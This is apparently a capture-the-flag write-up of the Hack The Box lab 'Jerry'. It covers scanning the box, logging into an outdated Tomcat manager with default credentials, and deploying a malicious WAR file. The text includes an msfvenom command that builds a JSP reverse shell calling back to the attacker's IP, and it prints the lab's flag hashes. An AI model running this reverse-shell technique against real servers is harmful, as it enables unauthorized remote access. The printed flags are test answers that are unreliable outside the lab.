

+++
title = "HTB - Jerry"
date = 2024-10-28
+++

</img>

Jerry is a very simple box with the purpose of tasking the attackers to work on basic web-enumeration, unrestricted file upload parameters, and simple payload creation. Let's get to it.

### Reconnaissance

Our Scan: `nmap -sV -sC --open -p- 10.10.10.95`

Our Result:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 20:58 EDT
Nmap scan report for 10.10.10.95
Host is up (0.13s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 242.42 seconds

```

### Service Enumeration

By the looks of it, we've got one route here. Apache Tomcat is server hosting software, and this version here is pretty outdated and vulnerable. Specifically, we're able to use the /manager/html path to deploy malicious WAR files to the server. All we need are some credentials to access.

When we navigate to the page, we're met with this screen.

</img>

We can see a manager tab on the left. Rooting around a bit, we can gather some more information about the structure of tomcat configurations. However, when we try to navigate to the /manager/html path, we're prompted with a credential portal. 

Now, I tried a few different default credentials and eventually got a 403_Access_Denied

</img>

We can see, though, default credentials are given here in plain text. After reinstating the machine and rebooting Firefox, I was able to login again with those.

### Initial Access

Once in, there is good information regarding the name of the machine, services in use, versions, etc. 

</img>

But, I'm interested in the file upload, as it looks like we have access to gain a shell via malicious files. In order to create one, it'll need to be WAR to fit the server's parameters. 

</img>

We can use MSFVenom to create one for us, using: 
`msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.3 lport=4321 -f WAR -o pwn.war`

This will create what we need, and we can upload it directly into the site. Once deployed, set up a listener for the port that we specified in the file. Once that is set, act on the file via tomcat, and boom. Shell.

</img>

### Post Exploitation

Now, we've gotta find the flags. Syntax here was a bit new to me, but I figured it out. Here's some tips to remember

```
DIR - Directory listing
MORE - Almost 'cat' equivilent
```

Once you navigate to admin, this is what you find!

``` 
C:\Users\Administrator\Desktop\flags>DIR
DIR
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)   2,419,560,448 bytes free


C:\Users\Administrator\Desktop\flags>more "2 for the price of 1.txt"
more "2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e

C:\Users\Administrator\Desktop\flags>

```

#easy #windows #manual 